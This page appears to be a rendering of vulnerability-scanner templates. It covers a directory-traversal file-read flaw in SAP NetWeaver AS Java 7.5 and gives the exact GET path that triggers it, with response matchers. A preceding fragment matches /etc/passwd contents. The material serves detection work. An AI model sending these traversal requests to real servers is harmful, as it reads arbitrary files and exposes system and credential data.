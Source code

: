 ### Matchers

**Type - regex**

- regex
  1. root:.\*:0:0:
- part - body
- condition - and

**Type - status**

- status
  1. 200

---

# SAP NetWeaver Application Server Java 7.5 - Local File Inclusion

## Description

- SAP NetWeaver Application Server Java 7.5 is susceptible to local file inclusion in scheduler/ui/js/ffffffffbca41eb4/UIUtilJavaScriptJS. This can allow remote attackers to read arbitrary files via a .. (dot dot) in the query string, as exploited in the wild in August 2017, aka SAP Security Note 2486657.
- severity - high
- tags - cve,cve2017,sap,lfi,java,traversal

## Requests

- Method - GET

### URL

- {{BaseURL}}/scheduler/ui/js/ffffffffbca41eb4/UIUtilJavaScriptJS?/..

### Matchers

**Type - status**

- status
  1. 200

**Type - word**

- words
  1. WEB-INF
  2. META-INF
- condition - and
- part - body

---
